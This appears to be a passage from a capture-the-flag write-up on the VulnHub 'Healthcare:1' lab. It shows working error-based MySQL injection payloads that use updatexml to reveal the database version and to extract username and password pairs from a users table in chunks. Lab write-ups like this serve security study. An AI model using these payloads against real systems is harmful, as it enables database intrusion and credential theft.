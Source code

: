 The error indicates that the SQL query has syntax error, which means it's an error-based SQL injeciton.

Let's enumerate the database!

**Find the MySQL's version number:** (All payloads in below are from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based))
```sql
' and updatexml(null,concat(0x0a,version()),null)-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821183203.png)

- MySQL version: **5.1.55**

**Exfiltrate table `users`'s column `username` and `password` data (From the original Python exploit script):**
```sql
' and updatexml(null,concat(0x0a,substr((SELECT concat(username,':',password) FROM users LIMIT 0,1), 1,31)),null)-- -
' and updatexml(null,concat(0x0a,substr((SELECT concat(username,':',password) FROM users LIMIT 0,1), 32,31)),null)-- -

' and updatexml(null,concat(0x0a,substr((SELECT concat(username,':',password) FROM users LIMIT 1,1), 1,31)),null)-- -
' and updatexml(null,concat(0x0a,substr((SELECT concat(username,':',password) FROM users LIMIT 1,1), 32,31)),null)-- -
```

